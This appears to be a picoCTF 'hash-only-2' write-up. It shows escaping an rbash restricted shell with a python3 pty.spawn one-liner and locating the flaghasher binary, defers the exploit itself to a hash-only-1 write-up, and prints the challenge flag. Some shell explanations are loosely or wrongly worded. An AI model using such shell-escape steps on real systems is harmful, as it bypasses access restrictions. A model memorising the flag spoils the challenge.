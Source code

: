 # hash-only-2

## Description

Here is a binary that has enough privilege to read the content of the flag file but will only let you know its hash. If only it could just give you the actual content! Connect using `ssh ctf-player@rescued-float.picoctf.net -p 49806` with the password, `6abf4a82` and run the binary named "flaghasher".

After opening the terminal we will give the command `sh` . The **sh** command invokes the default shell and uses its syntax and flags. The shell linked to the **/usr/bin/sh** path is the default shell. The standard configuration of the operating system links the **/usr/bin/sh** path to the Korn shell.

Now we will give the command $0 which tells about the refers to the name of the current script or shell.
So, it tells us about the rbash script where r means restricted. 
A restricted shell behaves identically to `bash` with the exception that the following are disallowed or not performed:

- Changing directories with the `cd` builtin.
- Setting or unsetting the values of the `SHELL`, `PATH`, `HISTFILE`, `ENV`, or `BASH_ENV` variables.
- Specifying command names containing slashes.
- Specifying a filename containing a slash as an argument to the `.` builtin command.

```
ctf-player@pico-chall$ sh
\[\e[35m\]\u\[\e[m\]@\[\e[35m\]pico-chall\[\e[m\]$ exit
ctf-player@pico-chall$ $0
-rbash: -rbash: command not found
```

We change the bash scripting environment by the command 

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

This command if used for shell up gradation if you are in a restricted shell. 
- **`python3 -c`**: Runs the following Python code from the command line.  
- **`import pty`**: Imports the `pty` (pseudo-terminal) module.
- **`pty.spawn("/bin/bash")`**:
	- Spawns a new bash shell attached to a pseudo-terminal.
    - This gives you a more **interactive shell**, allowing usage of commands like `clear`, `tab-completion`, `Ctrl+C`, and `arrow keys` which may not work in a basic reverse shell.

Now we see that the shell is changes to /bin/rbash

```
ctf-player@pico-chall$ python3 -c 'import pty; pty.spawn("/bin/bash")'
ctf-player@challenge:~$ echo $SHELL
/bin/rbash
ctf-player@challenge:~$ ls
ctf-player@challenge:~$ cd /
ctf-player@challenge:/$ ls
bin   challenge  etc   lib    lib64   media  opt   root  sbin  sys  usr
boot  dev        home  lib32  libx32  mnt    proc  run   srv   tmp  var

```

We find the flaghasher file by using the command 
```
find / -name flaghasher 2>/dev/null
```

Now the challenge will be solved in the same way as for the **[[hash-only-1](https://github.com/SrishtiCode/picoCTF/blob/main/picoCTF%202025/Binary%20Exploitation/hash-only-1/README.md)]** 

```
ctf-player@challenge:/$ find / -name flaghasher 2>/dev/null
/usr/local/bin/flaghasher
ctf-player@challenge:/$ cd /usr/local/bin
ctf-player@challenge:/usr/local/bin$ ls
flaghasher

```
#### FLAG - picoCTF{Co-@utH0r_Of_Sy5tem_b!n@riEs_6e3b0209}
